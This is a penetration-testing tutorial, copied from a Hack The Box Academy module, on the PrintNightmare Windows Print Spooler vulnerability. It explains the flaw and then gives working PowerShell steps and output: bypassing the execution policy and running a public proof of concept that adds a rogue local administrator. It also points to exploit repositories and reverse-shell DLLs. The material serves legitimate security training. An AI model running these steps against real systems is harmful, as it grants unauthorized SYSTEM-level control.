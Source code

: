 # PrintNightmare



**This page was copied from** [**https://academy.hackthebox.com/module/67/section/627**](https://academy.hackthebox.com/module/67/section/627)****

`CVE-2021-1675/CVE-2021-34527 PrintNightmare` is a flaw in [RpcAddPrinterDriver](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-rprn/f23a7519-1c77-4069-9ace-a6d8eae47c22) which is used to allow for remote printing and driver installation. \
This function is intended to give **users with the Windows privilege `SeLoadDriverPrivilege`** the ability to **add drivers** to a remote Print Spooler. This right is typically reserved for users in the built-in Administrators group and Print Operators who may have a legitimate need to install a printer driver on an end user's machine remotely.

The flaw allowed **any authenticated user to add a print driver** to a Windows system without having the privilege mentioned above, allowing an attacker full remote **code execution as SYSTEM** on any affected system. The flaw **affects every supported version of Windows**, and being that the **Print Spooler** runs by default on **Domain Controllers**, Windows 7 and 10, and is often enabled on Windows servers, this presents a massive attack surface, hence "nightmare."

Microsoft initially released a patch that did not fix the issue (and early guidance was to disable the Spooler service, which is not practical for many organizations) but released a second [patch](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) in July of 2021 along with guidance to check that specific registry settings are either set to `0` or not defined.&#x20;

Once this vulnerability was made public, PoC exploits were released rather quickly. **** [**This**](https://github.com/cube0x0/CVE-2021-1675) **version** by [@cube0x0](https://twitter.com/cube0x0) can be used to **execute a malicious DLL** remotely or locally using a modified version of Impacket. The repo also contains a **C# implementation**.\
This **** [**PowerShell implementation**](https://github.com/calebstewart/CVE-2021-1675) **** can be used for quick local privilege escalation. By **default**, this script **adds a new local admin user**, but we can also supply a custom DLL to obtain a reverse shell or similar if adding a local admin user is not in scope.

### **Checking for Spooler Service**

We can quickly check if the Spooler service is running with the following command. If it is not running, we will receive a "path does not exist" error.

```
PS C:\htb> ls \\localhost\pipe\spoolss


    Directory: \\localhost\pipe


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
                                                  spoolss
```

### **Adding Local Admin with PrintNightmare PowerShell PoC**

First start by [bypassing](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/) the execution policy on the target host:

```
PS C:\htb> Set-ExecutionPolicy Bypass -Scope Process

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic at
https:/go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): A
```

Now we can import the PowerShell script and use it to add a new local admin user.

```powershell
PS C:\htb> Import-Module .\CVE-2021-1675.ps1
PS C:\htb> Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"

[+] created payload at C:\Users\htb-student\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_am
d64_ce3301b66255a0fb\Amd64\mxdwdrv.dll"
[+] added user hacker as local administrator
[+] deleting payload from C:\Users\htb-student\AppData\Local\Temp\nightmare.dll
```

### **Confirming New Admin User**

If all went to plan, we will have a new local admin user under our control. Adding a user is "noisy," We would not want to do this on an engagement where stealth is a consideration. Furthermore, we would want to check with our client to ensure account creation is in scope for the assessment.

```
PS C:\htb> net user hacker

User name                    hacker
Full Name                    hacker
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            ?8/?9/?2021 12:12:01 PM
Password expires             Never
Password changeable          ?8/?9/?2021 12:12:01 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators       
Global Group memberships     *None                 
The command completed successfully.
```


